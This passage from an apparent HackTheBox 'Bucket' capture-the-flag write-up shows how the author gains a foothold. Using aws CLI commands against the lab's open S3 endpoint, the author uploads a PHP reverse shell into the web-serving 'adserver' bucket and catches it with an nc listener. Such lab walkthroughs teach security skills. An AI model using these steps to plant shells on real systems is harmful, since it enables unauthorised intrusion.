 ```
            },
            "username": {
                "S": "Sysadm"
            }
        }
    ],
    "Count": 3,
    "ScannedCount": 3,
    "ConsumedCapacity": null
}
```

No luck connecting with any of the credentials so let's try something else.

# Foothold

Let's first check if we can create a bucket and upload a file to that bucket

```
aws --endpoint-url=http://s3.bucket.htb s3api create-bucket --bucket mine
aws --endpoint-url=http://s3.bucket.htb s3 ls
2020-11-01 18:40:04 adserver
2020-11-01 18:40:18 mine
```

As we can see there is two buckets, one that we just created and the other that probably hosts all of the images for the website.

Let's upload something

```
aws --endpoint-url http://s3.bucket.htb s3 cp rev.php s3://mine
upload: ./rev.php to s3://mine/rev.php
```

Let's check if the file exists

![{{site.baseurl}}/assets/img/HackTheBox/Bucket/Screenshot_20201101_184606.png]({{site.baseurl}}/assets/img/HackTheBox/Bucket/Screenshot_20201101_184606.png)

It does and we can download it. Not what we want but that's a start. 

I got stuck on that for a bit but then I tried to upload my reverse shell to the other bucket `adserver`

```
aws --endpoint-url http://s3.bucket.htb s3 cp rev.php s3://adserver
upload: ./rev.php to s3://adserver/rev.php
```

Now let's start a nc listener and check on that file

![{{site.baseurl}}/assets/img/HackTheBox/Bucket/Screenshot_20201101_185439.png]({{site.baseurl}}/assets/img/HackTheBox/Bucket/Screenshot_20201101_185439.png)

We got our foothold now let's get user on the machine

# Getting user
